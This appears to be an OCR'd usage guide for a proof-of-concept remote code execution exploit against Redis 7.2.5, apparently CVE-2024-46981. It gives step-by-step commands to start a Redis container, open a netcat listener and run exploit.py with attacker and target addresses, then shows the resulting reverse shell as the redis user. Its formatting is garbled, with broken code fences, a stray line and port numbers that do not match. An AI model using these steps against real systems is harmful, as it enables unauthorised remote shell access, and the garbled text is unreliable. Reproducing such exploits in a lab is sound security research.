 To run the exploit please extract the attached ZIP and follow these steps on Linux:

1. Set up a virtualenv/install the Redis client 

```
pip install -r requirements.txt
```

2. In another terminal, run the Redis docker image
	- Or build from source and run on a support platform
		- The exploit has been tested and works on Fedora 40/Ubuntu 24.04
```

```
zone ip
```
$ docker run --network host redis:7.2.5 --bind 0.0.0.0 
$ redis-cli -h x.x.x.x -p 6379
x。x.x.x:6379> exit
```
check connection
```
```

3. Get the ip address of your host on the docker network

```
$ ifconfig
 
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.254.162  netmask 255.255.255.0  broadcast 192.168.254.255
        inet6 fe80::9f48:4a6f:10c2:b838  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:9b:0b:b0  txqueuelen 1000  (Ethernet)
        RX packets 1449284  bytes 1109758166 (1.0 GiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1277227  bytes 222037834 (211.7 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0


```

4. In another terminal, run an netcat listener:

```
$ nc -nlvp 12345
```

5. Run the exploit:
	-  Replace `lhost` with your docker ip address

```
$ python3 exploit.py --lhost x.x.x.x --lport 12345 --rhost localhost 
```
python .\redis-2024-46981.py --lhost 192.168.254.194 --lport 12345 --rhost 192.168.254.162
```
6. You should receive a connection

```
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:2222
Ncat: Listening on 0.0.0.0:2222
Ncat: Connection from 172.17.0.2:36518.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
redis@4d1537f2dd4e:/data$

```
